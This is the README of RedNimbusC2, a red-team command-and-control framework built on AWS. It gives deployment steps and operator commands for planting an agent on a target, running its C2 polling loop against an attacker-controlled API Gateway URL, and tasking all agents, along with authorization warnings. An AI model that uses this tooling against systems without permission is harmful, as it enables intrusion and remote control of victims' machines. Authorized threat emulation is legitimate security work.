

# :cloud: RedNimbusC2

Red Nimbus C2 is a [command and control](https://attack.mitre.org/tactics/TA0011/) framework built on AWS services including [Lambda](https://aws.amazon.com/lambda/), [S3](https://aws.amazon.com/s3/), and [CloudWatch](https://aws.amazon.com/cloudwatch/).

The purpose of this tool is to enable legitimate cybersecurity practitioners to emulate advanced cyber threats. In that way, organizations can identify weaknesses and apply corrective and/or compensating controls to improve their security posture.



## Demo


## :warning: READ THIS FIRST! :warning:

- You are solely responsible for your use of this tool.

- You are required to build it, deploy it, and operate it.

- :moneybag: :fire: **You will be charged for your use of AWS resources**.

- Before utilizing this tool, ensure you have explicit written permission to assess the target network(s) from the network owner(s).

- Additionally, you are responsible for complying with the AWS support policy for penetration testing, available [here](https://aws.amazon.com/security/penetration-testing/).

- Misuse of this tool is **strongly condemned** by the author, and will almost certaintly result in criminal and/or legal action.

## :construction: Pardon Our Dust

This repository is under active development.

Content is not stable at this time.

## :floppy_disk: Prerequisites

### 1. Create AWS Account

Red Nimbus C2 makes exclusive use of AWS cloud services.

For this reason, you must have your own AWS account.

Instructions on creating an AWS account are provided [here](https://aws.amazon.com/premiumsupport/knowledge-center/create-and-activate-aws-account/).

### 2. Install Build Dependencies

You must install the following resources in order to build and operate Red Nimbus C2:

1. [Node.js](https://nodejs.org/en/)
2. [Python 3](https://www.python.org)
3. [AWS SDK for Python (Boto3)](https://aws.amazon.com/sdk-for-python/)
4. [Go](https://go.dev)
5. [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)
6. [AWS CDK](https://aws.amazon.com/getting-started/guides/setup-cdk/)
7. [Make](https://www.gnu.org/software/make/)
8. [Git](https://git-scm.com)

## :computer: Installation

After installing the needed build depdencies, you can install/deploy Red Nimbus C2 using the following commands.

1. **Clone the repository**

```bash
git clone https://github.com/bluesentinelsec/RedNimbusC2.git
```

2. **Deploy Red Nimbus C2 infrastructure to AWS using [CDK](https://aws.amazon.com/cdk/)**

```bash
# enter the RedNimbusC2 directory
cd RedNimbusC2

# deploy RedNimbusC2 resources to AWS
make deploy

# Your C2 URL will be found in this file
# after deployingment:
#     RedNimbusC2/nimbus_c2_url.json

# optionally deploy to a specific AWS account like so:
#     make deploy AWS_PROFILE=<your_profile>
```

See [here](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html) for info on configuring AWS CLI profiles.


3. **Install the Red Nimbus C2 Operator Client**

```bash
# from RedNimbusC2 directory
pip3 install -r operator_client/requirements.txt

python3 operator_client/nimbusc2.py --help
```

## Operator Instructions

Red Nimbus C2 uses the following workflow:

1. Deploy agent to target
2. Issue commands using the Nimbus C2 operator client
3. Cleanup when finished

### 1. Deploy Agent to Target System(s)

We provide an [example agent written in Python](./agent/agent.py).

You may use this script as a reference to implement your own agent for operational purposes. [Go is a good choice.](https://github.com/bluesentinelsec/OffensiveGoLang)

Otherwise, you are responsible for deploying the agent to your intended target.

As a reminder, always stay in scope, always follow your rules of engagement, and always get explicit written permission to execute prior to conducting your engagement.

Once the agent is on target, you can execute it as follows:

```bash
# view help
python3 agent.py --help

# start C2 loop
# get your API Gateway URL from this file:
# RedNimbusC2/nimbus_c2_url.json
python3 agent.py --url <AWS API Gateway URL>
```

### 2. Issue commands using the Nimbus C2 operator client

The Red Nimbus C2 operator client is provided [here](./operator_client/nimbusc2.py).

**Interact with Agent Sessions**

```bash
# view summarized info about all sessions
nimbusc2.py --list-sessions

# view detailed agent session information
nimbusc2.py --get-session --session-id <agent_session_id>

# terminate agent session
nimbusc2.py --remove-session --session-id <agent_session_id>
```

**Issue Commands to Agents**

```bash
# issue an agent task; will be executed by all agents by default
nimbusc2.py --set-task --cmd <supported_agent_command>

# view a pending agent task
nimbusc2.py --get-task --task-id <task_id>

# delete a pending agent task
nimbusc2.py --remove-task --task-id <task_id>
```

### View Task Output

At this time you can view agent output in AWS CloudWatch.

A future enhancement will be added to integrate agent task output with the operator client terminal.

### Cleanup

:exclamation: To remove the Red Nimbus C2 infrastructure on AWS:

```bash
# remove nimbusc2 binaries and AWS infrastructure
# this will destroy any operational data you may have
# in S3, so be sure to backup your data before uninstalling if necessary 
make destroy
```
